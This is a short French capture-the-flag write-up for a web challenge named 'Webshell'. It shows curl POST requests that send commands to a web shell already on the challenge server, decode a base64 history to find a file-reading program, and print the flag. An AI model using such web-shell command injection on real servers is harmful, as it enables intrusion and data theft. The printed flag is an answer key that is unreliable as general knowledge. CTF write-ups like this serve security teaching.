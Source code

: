 **Webshell - Web - 300**

Enoncé :

```
Now somebody uploaded a web shell to my web server. What a nice guy hurray!

http://138.197.41.168:8081/

HINT: I think somebody used some commands already but I could not figure how to find them.

```

![Alt](img/shell_as_service.png "shell_as_service.png")


__Résolution :__

On injecte tout d'abord une commande de base :
```BASH
curl -XPOST http://138.197.41.168:8081/ --data "command=ls"                               

index.php shell.jpg flag.txt
```

Le fichier flag.txt n'est pas directement accessible.

Le hint donné nous donne un sacré indice sur la commande à injecter :

```BASH
curl -XPOST http://138.197.41.168:8081/ --data "command=history"

1  ZXh0c
2  mFfc2
3  VjdXJ
4  lX2Zp
5  bGVfc
6  mVhZG
7  Vy

```
On décode le base64 :

```BASH
echo -n 'ZXh0c mFfc2 VjdXJ lX2Zp bGVfc mVhZG Vy' | base64 -di

extra_secure_file_reader
```
On va lire le fichier qui nous intéresse

```BASH

curl -XPOST http://138.197.41.168:8081/ --data "command=extra_secure_file_reader flag.txt"

YUBITSEC{shello_shello_are_you_thereo}

```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
